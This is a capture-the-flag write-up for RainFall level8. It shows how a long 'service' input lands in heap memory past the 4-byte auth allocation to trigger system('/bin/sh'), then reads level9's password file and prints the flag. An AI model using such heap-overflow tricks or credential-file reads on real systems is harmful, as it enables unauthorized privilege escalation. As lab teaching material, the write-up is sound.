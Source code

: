 The real difficulty here was to reconstruct the source code, which is a bit more complex than in the previous exercises. 

The program contains an infinite loop in a main() function. First, the program displays the addresses of two global variables, auth and service, and then records the user's input in a buffer with fgets(). The following then differs depending on what is read from stdin. I won't detail the program here, because it is quite clear in the [source.c file](source.c).

When the program is run, `(nil), (nil)` is displayed, which means that the variables auth and service are both null pointers. By filling in auth and service, we obtain the addresses of our two variables:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth a
0x804a008, (nil) 
service a
0x804a008, 0x804a018
```

What we are interested in is the condition according to which the call to `system("/bin/sh")` is made: auth + 32 must not be equal to 0. First of all, note that only 4 bytes are allocated for auth. No matter how hard we try with auth, there is no way we can write something at auth + 32. But we can see that the service address is 16 bytes further in the memory than the auth address (0x804a018 - 0x804a008). Plus, sercice is allocated with strdup(), so it will have the size of our input. We just have to fill in an input long enough for service, in order to write in the memory at auth + 32:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth ok
0x804a008, (nil) 
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
We can now reach to the next level with the command `su level9` and fill in the flag found as a password.